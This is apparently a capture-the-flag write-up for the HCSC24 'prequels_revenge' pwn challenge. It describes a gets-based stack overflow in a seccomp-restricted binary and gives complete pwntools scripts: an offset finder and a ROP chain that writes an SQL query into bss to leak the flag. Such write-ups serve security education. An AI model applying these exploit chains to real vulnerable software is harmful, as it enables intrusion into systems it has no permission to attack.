





# Overview
The given zip file contains a docker image with a 64 bit binary called prequel. There is also a `create_message_db.sh` script in the assets directory which creates an sqlite database in a file called `messages.db`

This challenge is essentially the same as `prequel`, but this time we don't have any debug functions or useful strings, so we have to be smart about constructing our ROP chain.

## Binary

We have a statically linked 64-bit ELF executable. The symbols are fortunately not stripped. Pwntools' `checksec` says that there is stack canary protection in place - this is not true for the main function, and there isn't a memory segment that is writeable and executable at the same time. We don't have to worry about ASLR, the binary starts always at the same address in the memory.

## Running the binary


The binary asks for a name, does an sql query and prints out the result.

## Decompiling


When we open up the binary in our favourite decompiler we can see that the program uses seccomp (Secure Computing mode). This is a feature in the Linux kernel that is designed to filter system calls.
We can use `seccomp-tools` to dump the restrictions.



As you can see using execve and execveat results in terminating the process, so we can't get a shell without exploiting the kernel itself to bypass the seccomp filter. However, this protection won't stop us from getting the flag.

## The vulnerability


The function `read_name` calls `gets` on a given buffer. It is a well-known fact that using `gets` is a bad idea because it doesn't do a length check on the input at all before writing it to the buffer. This is a classical case of a stack-based buffer overflow.

## Exploitation
Our buffer in this case is 64 bytes long, and there is an 8 bytes long base pointer, so the offset will be 72 bytes till the return address.
We can also calculate this dynamically with the following code.
```python
from pwn import *

p = process("./prequels_revenge")
g = cyclic_gen()

p.sendline(g.get(100))
p.wait()

print(cyclic_find(p.corefile.fault_addr))
```

Since no segment is writeable and executable at the same time we have to use return-oriented programming (ROP), we can't just send a shellcode and jump there.
This time our job is harder than the previous challenge, because there are no debug functions, and there is no `SELECT * FROM flag;` string in the binary that we could utilize for getting the flag.

Our new strategy is to call the gets on a writeable memory address (for example bss), write `SELECT * FROM flag;` to that place and then call get_messages with the query provided by us.
This is pretty easy, we need a pop rdi gadget, and the address of gets and get_message. We don't have to supply another parameter to get_message, because it only prints out a warning when we don't supply the second parameter.

This time I utilized pwntools' automatic rop chain building capabilities.

```python
from pwn import *

context.binary = elf = ELF("./prequels_revenge")

p = process()

r = ROP(elf)
r.raw(b"A" * 72) # padding

r.gets(elf.bss()) # elf bss is a writeable memory address
r.get_message(elf.bss())

p.sendline(r.chain())
p.sendline(b"SELECT * FROM flag;")
p.recvuntil(b"Failed to bind text: column index out of range\n")

flag = p.recvline().decode()
log.success("Got flag: " + flag)
```

Running the exploit on remote yields the following flag: `HCSC24{h0pe_y0u_u53d_the_str1nG_1n_pR3qu3l_4nd_n0t_b0ring_r34d}`
This is pretty funny because my first method for solving the previous challenge named `prequel` was this exploit, then I realized there is a simpler way, but actually, this was beneficial, because on the second day, this challenge came out and I already had this exploit.